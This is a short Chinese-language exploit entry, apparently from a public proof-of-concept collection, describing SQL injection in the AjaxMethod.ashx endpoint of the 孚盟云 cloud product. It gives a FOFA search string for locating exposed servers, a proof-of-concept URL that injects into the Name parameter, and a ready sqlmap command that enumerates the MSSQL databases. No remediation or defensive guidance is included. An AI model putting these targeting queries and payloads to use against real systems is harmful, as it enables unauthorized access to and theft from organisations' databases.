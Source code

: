 # 孚盟云 AjaxMethod.ashx SQL注入漏洞

## 漏洞描述

孚盟云 AjaxMethod.ashx文件存在SQL注入漏洞，攻击者通过漏洞可获取服务器权限

## 漏洞影响

<a-checkbox checked>孚盟云</a-checkbox></br>

## FOFA

<a-checkbox checked>title="孚盟云 "</a-checkbox></br>

## 漏洞复现

登录页面



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131644740.png)



验证POC

```plain
http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y%27
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131644786.png)



使用Sqlmap

```plain
sqlmap -u "http://xxx.xxx.xxx.xxx/Ajax/AjaxMethod.ashx?action=getEmpByname&Name=Y" -p Name --batch --random-agent --dbms mssql --dbs
```

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131645297.png)
